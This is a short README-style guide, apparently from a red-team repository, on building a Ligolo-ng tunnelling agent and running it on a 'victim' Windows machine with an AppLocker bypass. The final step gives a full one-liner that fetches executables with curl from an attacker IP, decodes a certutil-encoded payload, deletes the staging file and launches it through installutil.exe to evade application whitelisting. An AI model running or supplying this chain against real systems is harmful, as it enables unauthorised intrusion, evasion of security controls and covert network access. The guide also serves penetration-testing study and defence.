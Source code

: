 ### <ins>Step 1: Modify the Ligolo-ng agent's main file</ins>
  - Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  - Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### Step 2: Compile the agent 
  - Use the following command to compile: 
  - GOOS=windows go build -o agent.exe cmd/agent/main.go

### Step 3: Encode the ApplockerBypassExternalBinary executable with certutil 
  - certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.

### Step 4: Execution on the Target Machine
  - Name the agent executable `ligolo-agent.exe` 
  - Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### Step 5: Execution in Action! 
  - On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/  AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
